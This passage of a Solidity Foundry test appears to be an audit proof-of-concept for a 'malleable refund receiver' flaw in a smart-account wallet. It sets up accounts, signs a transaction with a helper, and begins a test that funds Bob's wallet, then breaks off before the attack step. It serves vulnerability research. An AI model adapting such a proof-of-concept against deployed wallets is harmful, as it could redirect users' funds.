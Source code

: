 ```solidity
        vm.label(deployer, "deployer");
        vm.label(bob, "bob");
        vm.label(attacker, "attacker");

        vm.startPrank(deployer);
        implementation = new SmartAccount();
        factory = new SmartAccountFactory(address(implementation));
        token = new MockToken();
        vm.stopPrank();
    }
    
    function buildSignature(SmartAccount wallet, Transaction memory _tx, FeeRefund memory refundInfo, uint256 _nonce, uint256 privateKey) internal returns (bytes memory) {
        bytes32 domainSeparator = wallet.domainSeparator();

        bytes32 safeTxHash =
            keccak256(
                abi.encode(
                    ACCOUNT_TX_TYPEHASH,
                    _tx.to,
                    _tx.value,
                    keccak256(_tx.data),
                    _tx.operation,
                    _tx.targetTxGas,
                    refundInfo.baseGas,
                    refundInfo.gasPrice,
                    refundInfo.gasToken,
                    refundInfo.refundReceiver,
                    _nonce
                )
            );

        bytes memory encoded = abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash);
        bytes32 hash = keccak256(encoded);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, hash);

        return abi.encodePacked(r, s, v);
    }
    
    function test_SmartAccount_MalleableRefundReceiver() public {
        vm.startPrank(bob);

        address proxy = factory.deployWallet(bob, entrypoint, handler);
        SmartAccount wallet = SmartAccount(payable(proxy));

        // Load Bob's wallet with some balance
        token.mint(address(wallet), 1 ether);

        // Deploy a random contract and simulate a call to this contract by Bob.
        // fundReceiver is the recipient of the refund.
        Foo foo = new Foo();
        address fundReceiver = makeAddr("fundReceiver");

        // fundReceiver has 0 balance
        assertEq(fundReceiver.balance, 0);

        // Build and sign transaction
        Transaction memory tx = Transaction(
            address(foo), // to
            0, //value,
            abi.encodeWithSelector(Foo.foo.selector), //data
```